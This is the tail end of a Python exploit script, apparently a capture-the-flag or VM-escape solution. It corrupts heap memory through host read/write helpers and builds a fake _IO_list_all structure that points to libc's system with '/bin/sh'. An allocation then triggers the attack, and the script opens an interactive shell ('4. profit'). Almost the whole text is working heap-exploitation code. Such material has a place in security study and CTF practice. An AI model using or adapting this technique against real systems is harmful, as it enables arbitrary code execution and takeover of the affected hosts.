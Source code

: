 ```python
        print repr(read_host_mem(0, 0x300))

        write_host_mem(0, "B"*NICE_CHUNK_SZ + "\x00"*8 + p64(0xe01))
        print repr(read_host_mem(0, 0x300))

        host_alloc(0x1000)
        print repr(read_host_mem(0, 0x300))

        # construct fake _IO_list_all
        top = [p64(0)] * 30
        top[0] = "/bin/sh\x00"
        top[1] = p64(0x61)
        top[3] = p64(libc + LIBC_IO_LIST_ALL - 16)
        top[8] = p64(0)
        top[4] = p64(2)
        top[5] = p64(3)
        top[15] = p64(libc + LIBC_SYSTEM)
        top[27] = p64(heap + 0x200 + 0x60)

        write_host_mem(0, "C"*NICE_CHUNK_SZ + ''.join(top))
        print repr(read_host_mem(0, 0x300))

        # 3. ??
        host_alloc(128)
        print p.recv(timeout=1)

        # 4. profit
        p.interactive()

if __name__ == "__main__":
    main()
```
